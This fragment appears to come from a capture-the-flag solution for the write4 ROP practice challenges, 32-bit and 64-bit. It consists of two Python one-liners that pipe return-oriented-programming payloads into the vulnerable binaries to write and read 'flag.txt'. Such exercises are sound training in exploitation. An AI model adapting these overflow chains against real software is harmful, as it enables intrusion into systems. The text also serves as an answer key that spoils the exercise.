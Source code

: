 python2 -c "print('A' * 44 + '\xaa\x85\x04\x08' + '\x18\xa0\x04\x08' + 'flag' + '\x43\x85\x04\x08' + '\xaa\x85\x04\x08' + '\x1c\xa0\x04\x08' + '.txt' + '\x43\x85\x04\x08' + '\xd0\x83\x04\x08' + 'AAAA' + '\x18\xa0\x04\x08')" | ./write432


python2 -c "print('A' * 40 + '\x90\x06\x40\x00\x00\x00\x00\x00' + '\x28\x10\x60\x00\x00\x00\x00\x00' + 'flag.txt' + '\x28\x06\x40\x00\x00\x00\x00\x00' + '\x93\x06\x40\x00\x00\x00\x00\x00' + '\x28\x10\x60\x00\x00\x00\x00\x00' + '\x10\x05\x40\x00\x00\x00\x00\x00')" | ./write4